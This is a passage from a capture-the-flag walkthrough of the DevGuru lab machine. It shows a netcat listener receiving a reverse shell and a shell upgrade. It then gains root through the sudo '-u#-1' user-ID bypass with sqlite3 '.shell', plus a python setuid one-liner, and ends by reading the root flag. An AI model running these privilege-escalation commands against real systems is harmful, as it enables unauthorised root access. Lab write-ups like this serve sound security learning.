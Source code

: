 Now we have a shell with frank's privileges.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.166] 56758
bash: cannot set terminal process group (600): Inappropriate ioctl for device
bash: no job control in this shell
frank@devguru:~/gitea-repositories/s4rgaz/test.git$ id
frank@devguru:~/gitea-repositories/s4rgaz/test.git$ script -qc /bin/bash /dev/null
<ies/s4rgaz/test.git$ script -qc /bin/bash /dev/null
frank@devguru:~/gitea-repositories/s4rgaz/test.git$
```

By listing sudo permissions we cannot execute sqlite3 as root.

```console
frank@devguru:~/gitea-repositories/s4rgaz/test.git$ sudo -l
sudo -l
Matching Defaults entries for frank on devguru:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User frank may run the following commands on devguru:
    (ALL, !root) NOPASSWD: /usr/bin/sqlite3
```

A vulnerability exists regarding this setting in versions of sudo prior to 1.8.28, we can check it by consulting the version of sudo. 

```console
frank@devguru:~/gitea-repositories/s4rgaz/test.git$ sudo --version
sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

### Sudo Security Bypass

As we can see the current version of sudo is vulnerable because doesn't check for the existence of the specified user id and executes with arbitrary user id with the sudo priv -u#-1 returns as 0 which is root's id.

To bypass these restrictions I was guided in the [GTFOBINS](https://gtfobins.github.io/gtfobins/sqlite3/#sudo) article, so I used the following instruction to get root.

```console
frank@devguru:~/gitea-repositories/s4rgaz/test.git$ sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'
<.git$ sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'
# id
id
uid=0(root) gid=1000(frank) groups=1000(frank)
# python3 -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
python3 -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"

root@devguru:~/gitea-repositories/s4rgaz/test.git# cd /root
cd /root
root@devguru:/root# ls
ls
msg.txt  root.txt
root@devguru:/root# cat msg.txt
cat msg.txt

           Congrats on rooting DevGuru!
  Contact me via Twitter @zayotic to give feedback!

```